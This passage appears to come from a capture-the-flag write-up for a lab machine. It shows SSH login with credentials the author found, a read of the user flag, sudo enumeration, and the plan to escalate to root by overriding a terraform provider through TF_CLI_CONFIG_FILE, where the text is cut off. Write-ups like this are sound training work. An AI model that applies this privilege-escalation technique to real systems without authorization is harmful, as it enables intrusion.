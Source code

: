 * .env contained no ADMIN\_SECRET, so fallback applies.
    

## Foothold: SSH as Jeremy

SSH Credentials Discovered:

* Username: jeremy
    
* Password: MyNameIsJeremyAndILovePancakes
    

SSH access:

```plaintext
ssh jeremy@10.10.11.83
```

User flag:

```plaintext
cat ~/user.txt
# 3df44778[...redacted...]
```

## Post-Exploitation: Root Privilege Escalation

## 7\. Sudo Analysis & Terraform Abuse

Sudo rights:

```plaintext
sudo -l
```

* Output: (root) /usr/bin/terraform -chdir=/opt/examples apply — as root.
    

Reviewing /opt/examples/main.tf:

```plaintext
terraform {
  required_providers {
    examples = {
      source = "previous.htb/terraform/examples"
    }
  }
}
# ... variables, provider, resource...
```

* Uses a custom provider; points to /root/examples/hello-world.ts (no write, but we can override provider!)
    

## 8\. Terraform Provider Development Override Privesc

Abuse: Custom provider loading via TF\_CLI\_CONFIG\_FILE for plugin override
